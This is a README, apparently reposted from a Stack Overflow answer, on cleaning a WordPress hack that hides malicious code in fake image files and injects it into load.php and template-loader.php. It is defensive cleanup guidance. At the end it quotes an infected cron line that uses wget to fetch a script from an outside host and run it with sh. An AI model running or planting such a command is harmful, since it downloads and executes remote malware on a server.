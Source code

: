 # Clean-Wordpress-Hack
This repository contains common hack issues of the wordpress 

# To clean the common .htaccess hack follow this url below 
https://stackoverflow.com/questions/67296060/hacked-wordpress-htaccess

I had the same problem and the antivirus was not able to detect it and also the problem of automatically creating files was not related to CronJobs, as friends mentioned. In fact, every time a page is opened from the site, those files are rebuilt.

I have carefully examined the issue and offer the solution.

The problem occurs for both .htaccess and index.php.

.htaccess infected file index.php infected file

First we search for a keyword in the text of the file:

# grep -lir "wjsindex.php" ./
./wp-admin/images/arrow-rights.png
./wp-includes/images/smilies/icon_crystal.gif
./.htaccess
For another file, we search for a keyword in the text:

# grep -lir "RZXiMOEbYmVH" ./
./wp-admin/images/arrow-lefts.png
./index.php
./wp-includes/images/smilies/icon_devil.gif
If you look at the contents of these found image files, you will see that they are not images and contain malicious code that exactly matched our two original files.

Sample:

sample malicious arrow-rights.png file sample malicious arrow-lefts.png file

We now search for all four files found:

# grep -lirE "arrow-rights.png|icon_crystal.gif|arrow-lefts.png|icon_devil.gif" ./
./wp-includes/load.php
./wp-includes/template-loader.php
If you edit these two results files. At the bottom of the file load.php and at the beginning of the file template-loader.php you will see the extra code that needs to be removed. (Starting with //ckIIbg)

diff wp-includes/load.php files diff wp-includes/template-loader.php files

To find out more exactly which sections are correct and which are malicious, just replace that file from another WordPress that you are sure is safe and the same version, or find and remove the extra sections with the diff command.
Thus:

# diff  ./wp-includes/load.php ~healthy/www/wp-includes/load.php
# diff  ./wp-includes/template-loader.php ~healthy/www/wp-includes/template-loader.php
And as a final step, delete the four malicious image files:

# rm -f ./wp-admin/images/arrow-rights.png ./wp-includes/images/smilies/icon_crystal.gif ./wp-admin/images/arrow-lefts.png ./wp-includes/images/smilies/icon_devil.gif
Edited:

And also check cronjobs (/var/spool/cron/username) for be like this infected line and remove it:

* * * * * wget -q -O xxxd http://hello.hahaha666.xyz/xxxd && chmod 0755 xxxd && /bin/sh xxxd /home//username/public_html 24 && rm -f xxxd
This code create a ./css/index.php file and can be deleted.
